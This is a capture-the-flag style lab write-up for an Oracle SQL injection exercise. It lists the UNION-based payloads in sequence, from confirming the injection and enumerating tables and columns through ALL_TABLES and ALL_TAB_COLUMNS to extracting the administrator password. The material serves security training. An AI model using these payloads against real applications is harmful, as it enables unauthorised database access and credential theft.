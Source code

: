 Title: SQL injection attack, listing the database contents on Oracle
Level: Practitioner
Desc:  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
To solve the lab, log in as the administrator user. 

payload: `category=Gifts' OR 1=1--`
![image](https://github.com/user-attachments/assets/4f3ad277-a39a-4b4b-ac7a-779afabe9578)

payload: `category=Gifts' OR 1=1 UNION SELECT '1','2' FROM DUAL--`
![image](https://github.com/user-attachments/assets/73cdc1c0-4ff6-450c-abda-936d4f098e85)

payload: `category=Gifts' OR 1=1 UNION SELECT table_name,'2' FROM ALL_TABLES--`
![image](https://github.com/user-attachments/assets/9cceafd8-ea39-44e4-a5d8-d2d54108cd84)

USERS_MKNPBT

payload: `category=Gifts' OR 1=1 UNION SELECT column_name,'2' FROM ALL_TAB_COLUMNS--`
![image](https://github.com/user-attachments/assets/38a84f31-ad57-4a10-a4d3-fffdb2bb618f)

PASSWORD_VTCJVE
USERNAME_YJYMYM

payload: `category=Gifts' OR 1=1 UNION SELECT PASSWORD_VTCJVE,'2' FROM USERS_MKNPBT WHERE USERNAME_YJYMYM='administrator'--`
